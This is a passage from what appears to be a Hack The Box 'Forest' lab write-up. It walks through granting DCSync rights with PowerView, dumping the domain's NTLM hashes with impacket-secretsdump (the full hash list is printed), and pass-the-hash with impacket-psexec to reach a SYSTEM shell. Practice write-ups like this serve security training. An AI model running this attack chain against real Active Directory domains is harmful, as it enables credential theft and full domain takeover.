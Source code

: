 `$Cred = New-Object System.Management.Automation.PSCredential('HTB.local\ryan', $SecPassword)`

and finally:

```text
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity ryan -Rights DCSync
```
Ok cool, so with that out of the way we should now be able to dump some hashes. I'll use impacket-secretsdump for this:

```text
┌──(ryan㉿kali)-[~/HTB/Forest]
└─$ impacket-secretsdump htb.local/ryan:password@10.10.10.161          
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
ryan:9601:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:de270ce9edb4ba3a28abb5bc7e28d7fc:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
```

One of the most satisfying things in pentesting is watching these hashes roll in like that. Beautiful.

And the great thing is, we don't even need to bother cracking this admin hash, we can simply pass-the-hash to login and grab our final flag. There are several tools we can do this with, but my favorite it Impacket's psexec:

```text
┌──(ryan㉿kali)-[~/HTB/Forest]
└─$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file eVsZqmDv.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service RwoC on 10.10.10.161.....
[*] Starting service RwoC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
FOREST
```
